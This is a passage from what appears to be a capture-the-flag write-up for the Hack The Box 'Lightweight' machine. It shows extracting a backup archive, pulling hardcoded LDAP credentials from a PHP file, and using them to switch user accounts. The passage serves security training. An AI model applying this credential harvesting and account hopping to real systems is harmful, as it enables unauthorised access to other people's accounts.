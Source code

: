 ```bash
Headers Size = 259
Method = LZMA2:12k 7zAES
Solid = +
Blocks = 1

    
Enter password (will not be echoed):
Everything is Ok

Files: 5
Size:       10270
Compressed: 3411
                                                                                                                                                                         
┌──(kali㉿kali)-[~/Downloads/hackthebox/lightweight/backup]
└─$ la
backup.7z  index.php  info.php  reset.php  status.php  user.php
```

Reading the files I found the creds for ldapuser1 in status.php.

```bash
$username = 'ldapuser1';
$password = 'f3ca9d298a553da117442deeb6fa932d';
$ldapconfig['host'] = 'lightweight.htb';
$ldapconfig['port'] = '389';
$ldapconfig['basedn'] = 'dc=lightweight,dc=htb';
//$ldapconfig['usersdn'] = 'cn=users';
$ds=ldap_connect($ldapconfig['host'], $ldapconfig['port']);
ldap_set_option($ds, LDAP_OPT_PROTOCOL_VERSION, 3);
ldap_set_option($ds, LDAP_OPT_REFERRALS, 0);
ldap_set_option($ds, LDAP_OPT_NETWORK_TIMEOUT, 10);

$dn="uid=ldapuser1,ou=People,dc=lightweight,dc=htb";
```

```bash
[ldapuser2@lightweight ~]$ su ldapuser1
Password: 
[ldapuser1@lightweight ldapuser2]$ cd ~
[ldapuser1@lightweight ~]$ ls -la
total 1496
drwx------. 4 ldapuser1 ldapuser1    181 Sep 27 13:22 .
drwxr-xr-x. 6 root      root          75 Sep 27 13:22 ..
lrwxrwxrwx. 1 root      root           9 Sep 27 13:22 .bash_history -> /dev/null
-rw-r--r--. 1 ldapuser1 ldapuser1     18 Apr 11  2018 .bash_logout
-rw-r--r--. 1 ldapuser1 ldapuser1    193 Apr 11  2018 .bash_profile
-rw-r--r--. 1 ldapuser1 ldapuser1    246 Jun 15  2018 .bashrc
drwxrwxr-x. 3 ldapuser1 ldapuser1     18 Jun 11  2018 .cache
-rw-rw-r--. 1 ldapuser1 ldapuser1   9714 Jun 15  2018 capture.pcap
drwxrwxr-x. 3 ldapuser1 ldapuser1     18 Jun 11  2018 .config
-rw-rw-r--. 1 ldapuser1 ldapuser1    646 Jun 15  2018 ldapTLS.php
-rwxr-xr-x. 1 ldapuser1 ldapuser1 555296 Jun 13  2018 openssl
-rwxr-xr-x. 1 ldapuser1 ldapuser1 942304 Jun 13  2018 tcpdump
```
